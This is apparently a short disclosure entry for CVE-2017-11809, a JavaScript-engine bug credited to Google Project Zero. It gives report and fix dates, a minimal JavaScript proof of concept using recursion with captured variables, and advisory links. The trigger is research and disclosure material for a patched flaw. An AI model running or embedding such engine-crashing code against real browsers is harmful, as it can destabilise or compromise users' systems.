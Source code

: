 # CVE-2017-11809

- Report: Aug 2017
- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function trigger() {
    let a, b, c;

    function g() {
        trigger();

        a, b, c;
    }

    g();
}

trigger();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11809)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1338)
